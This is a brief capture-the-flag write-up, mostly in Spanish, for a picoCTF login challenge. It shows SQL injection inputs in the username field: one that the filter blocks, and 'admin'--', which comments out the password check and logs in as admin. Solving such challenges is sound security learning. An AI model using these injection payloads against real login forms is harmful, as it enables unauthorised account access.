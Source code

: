 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or [http://jupiter.challenges.picoctf.org:53751](http://jupiter.challenges.picoctf.org:53751)
## Solución
- Cuando intentamos ingresar nos muestra la sentencia SQL que utiliza.
```shell
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
```

Al identificar el tipo de sentencia que se usa, volvemos al formulario e intentamos replicar lo que hicimos anteriormente. Sin embargo, parece que el sistema filtra lo que enviamos. Como sabemos que existe un usuario llamado "admin", modificamos su registro para obtener acceso, lo que finalmente nos permite ver la bandera.

```shell
username: ' or --;
password: admin
SQL query: SELECT * FROM users WHERE name='' or --;' AND password='admin'

# SQLi detected.

username: admin'--
password: admin
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='admin'

# Logged in!
```

## Notas adicionales

## Referencias